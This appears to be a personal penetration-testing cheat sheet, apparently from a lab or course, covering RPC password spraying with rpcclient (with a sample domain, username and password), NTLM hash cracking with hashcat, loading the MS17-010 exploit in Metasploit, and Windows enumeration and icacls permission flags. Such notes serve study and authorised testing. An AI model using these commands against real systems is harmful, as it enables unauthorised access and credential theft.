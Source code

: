 ### RPC Password Spraying
Delimited by % for username and password. \\ means domain/user
`rpcclient -U "AARINC\\Helpdesk%K33pIT\$ecure" "192.168.2.206"`

###Password cracking
https://www.unix-ninja.com/p/A_cheat-sheet_for_password_crackers
https://cyberrunner.medium.com/how-to-crack-passwords-with-hashcat-a9fb2aa1a813

- m 1000 means NTLM
- a 0 means dictionary attack, 3 would be brute force
```
hashcat.exe --help
hashcat -m 1000 -a 0 8eb4f4b78ad0629f1017f69d8d1f2a16 rockyou.txt
```

---

## Metasploit
msfconsole
search ms17-010
use 0
show options
set RHOSTS 192.168.2.206

---
# Windows
Window Privileges: https://www.exploit-db.com/papers/42556

## Enumeration
- Grabbing Windows OS version: `Get-WmiObject -Class win32_OperatingSystem | select Version, BuildNumber`
- Grabbing Powershell version: `$PSVersionTable`
- List out all folders and sub folders pretty-like: `tree FOLDERNAME`
- Open all the files one screen at a time: `tree c:\ /f | more`
- See all running services: `Get-Service | ? {$_.Status -eq "Running"} | select -First 2 |fl`

### Folder permissions
`icacls c:\windows`
- (CI): container inherit
- (OI): object inherit
- (IO): inherit only
- (NP): do not propagate inherit
- (I): permission inherited from parent container
- F: full access
- D: delete access
- N: no access
- M: modify access
- RX: read and execute access
- R: read-only access
- W : write-only access
